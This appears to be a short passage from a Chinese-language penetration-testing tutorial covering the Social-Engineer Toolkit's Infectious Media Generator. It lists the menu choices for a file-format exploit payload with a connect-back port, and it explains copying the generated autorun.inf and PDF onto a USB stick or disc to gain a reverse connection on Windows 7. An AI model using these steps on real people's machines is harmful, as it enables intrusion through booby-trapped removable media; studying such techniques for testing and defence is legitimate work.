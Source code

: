 

#### 3.1.5 Infectious Media Generator  

```
1) Social-Engineering Attacks
	3) Infectious Media Generator
		1) File-Format Exploits
		set:payloads>17
		set:payloads>5
		set:payloads> Port to connect back on [443]:4444
进入到/root/.set/autorun将autorun.inf及template.pdf拷贝至U盘或刻录光盘
```

<img src="../../images//image-20221219194211794.png" alt="image-20221219194211794" style="zoom: 67%;" />

在没有其他阻力(杀软、PDF软件版本的干扰下，则可以直接上线，但是在win10上大概率无法成功，win7问题不大）本质是利用自动运行

![image-20221219195346959](../../images//image-20221219195346959.png)
